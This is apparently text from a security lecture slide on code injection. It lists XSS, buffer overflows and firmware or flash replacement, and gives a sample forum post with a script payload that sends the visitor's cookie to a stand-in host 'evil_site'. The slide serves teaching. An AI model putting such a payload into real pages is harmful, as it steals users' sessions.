

# Code injection
“Code injection” is an attack where the system runs code written by the attacker
XSS – cross site scripting

Buffer overflows
Replacement of code on flash / in RAM
Replace the actual flash
Use the FW update mechanism
Take advantage of a vulnerability, such as in a DMA engine
Hi, I’m new in the forum.> <script>document.location='http://evil_site/evil.cgi?' +document.cookie</script>